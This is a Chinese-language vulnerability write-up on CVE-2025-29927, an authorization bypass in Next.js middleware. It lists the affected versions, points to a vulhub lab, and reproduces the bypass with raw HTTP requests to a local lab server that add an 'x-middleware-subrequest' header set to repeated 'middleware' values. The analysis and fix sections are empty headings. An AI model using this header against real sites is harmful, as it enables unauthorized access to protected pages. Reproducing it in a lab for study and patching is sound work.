




0x01简介
Next.js 是基于 React 的全栈框架，支持服务端渲染、静态生成和 API 开发，提供开箱即用的高性能 Web 应用解决方案。Next.js Middleware 是在请求到达前运行的轻量级代码，用于拦截和修改请求/响应，如重定向、路由保护或头信息处理。
0x02漏洞概述
0x03漏洞版本
15.* <= Next.js <15.2.3
14.* <= Next.js <14.2.25
11.1.4 <= Next.js <= 13.5.6
0x04环境搭建
网上有相应的docker环境（https://github.com/vulhub/vulhub/blob/master/next.js/CVE-2025-29927）
为了方便漏洞分析，拿了docker里面的源码进行本地搭建。


0x05 漏洞复现
访问 / 下的路径，会重定向到login进行登录认证。

1
2
3
4
5
6
7
8
9
| GET / HTTP/1.1
Host: 192.168.1.107:3000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
|
加入添加 x-middleware-subrequest 请求头，值为middleware:middleware:middleware:middleware:middleware。

1
2
3
4
5
6
7
8
9
10
11
12
| GET / HTTP/1.1
Host: 192.168.1.107:3000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
Connection: close
|
0x06 漏洞分析
0x07 修复方式
0x08 参考文章
https://github.com/vulhub/vulhub/blob/master/next.js/CVE-2025-29927/README.zh-cn.md